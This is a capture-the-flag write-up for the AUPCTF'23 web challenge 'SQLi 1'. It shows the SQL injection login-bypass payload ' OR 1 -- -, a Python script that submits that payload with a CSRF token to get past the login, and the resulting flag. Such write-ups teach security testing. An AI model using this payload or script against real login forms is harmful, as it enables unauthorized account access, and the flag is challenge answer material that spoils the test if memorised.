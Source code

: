 ```yaml
---
title: AUPCTF'23 - Web - SQLi 1
date: '2023-06-25'
tags: ['web', 'aupctf', 'sqli', 'login-bypass']
draft: false
summary: Basic SQL Injection to bypass login
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/sqli-1/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/sqli1.png)

Now, since we already know that the challenge is of `SQLi`, we can try random payloads, the most common one I use in `beginner-friendly ctfs` is:

```sql
' OR 1 -- -
```

And, it works!

![Login Page](/static/writeups/aupctf/web/sqli1_flag.png)

As you might've already guessed by know how much I love `python`, I wrote a script to automate this. Similar to [Conundrum](/blog/writeups/aupctf/web/conundrum/), we need to send the data to the login page and we have a `csrfmiddlewaretoken`, so we will use the same script, but change the username password to the payload:

```py
import requests
import re

url = "https://challs.aupctf.live/sqli-1/"

sess = requests.Session()

username = "' OR 1 -- -"
password = "' OR 1 -- -"

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password
	}
)
flag = re.findall("<h2>(.*?)</h2>", r.text)[0]
print(f"Flag: {flag}")
```

And, we get the flag:
Flag: `aupCTF{3a5y-sql-1nj3cti0n}`
